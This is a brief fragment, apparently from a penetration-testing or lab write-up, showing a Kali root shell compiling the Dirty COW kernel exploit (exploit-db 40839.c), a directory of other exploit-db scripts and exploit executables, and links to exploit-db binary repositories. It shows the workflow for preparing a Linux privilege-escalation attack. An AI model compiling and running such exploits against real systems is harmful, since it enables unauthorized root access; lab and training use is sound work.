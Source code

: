 ```
┌──(root㉿kali)-[~/tmp]
└─# gcc -pthread 40839.c -o dirtycow -lcrypt
                                                                                                                                                                                             
┌──(root㉿kali)-[~/tmp]
└─# ls -al                                              
total 556
drwxr-xr-x  2 root root   4096 Apr 11 07:54 .
drwx------ 19 root root   4096 Apr 11 07:32 ..
-rwxr-xr-x  1 root root  10218 Apr  9 09:21 39446.py
-rwxr-xr-x  1 root root  13734 Apr  9 09:21 39525.py
-rw-r--r--  1 root root   4814 Apr 11 07:52 40839.c
-rwxr-xr-x  1 root root  26086 Apr  9 08:02 42031.py
-rwxr-xr-x  1 root root   1101 Apr  9 07:31 49757.py
-rw-r--r--  1 root root   1836 Apr 11 07:42 9303.c
-rwxr-xr-x  1 root root  17512 Apr 11 07:54 dirtycow
-rwxr-xr-x  1 root root 231143 Apr 11 07:47 exploit32.exe
-rwxr-xr-x  1 root root 231143 Apr 11 07:45 exploit.exe
```

[offensive-security/exploitdb-bin-sploits](https://github.com/offensive-security/exploitdb-bin-sploits)

[Binary Exploits](https://gitlab.com/exploit-database/exploitdb-bin-sploits)
